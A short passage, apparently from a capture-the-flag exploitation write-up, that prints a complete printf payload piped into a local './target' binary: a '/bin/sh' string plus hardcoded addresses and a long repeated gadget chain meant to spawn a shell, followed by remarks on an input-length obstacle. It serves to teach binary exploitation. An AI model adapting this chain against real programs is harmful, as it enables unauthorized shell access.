 Now we chain it together and add the printf:

```
(printf '/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x00\x00\x00\x00AAAABBBB\x10\x90\x04\x08\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff\x10\x90\x04\x08' ; cat) | ./target
```

# One last obstacle
If you'll try to paste the final exploit, you'll notice the following behaviour:

![alt text](image-8.png)

Our input is just too long! That's not problem we can just press `enter` and paste the rest, right?
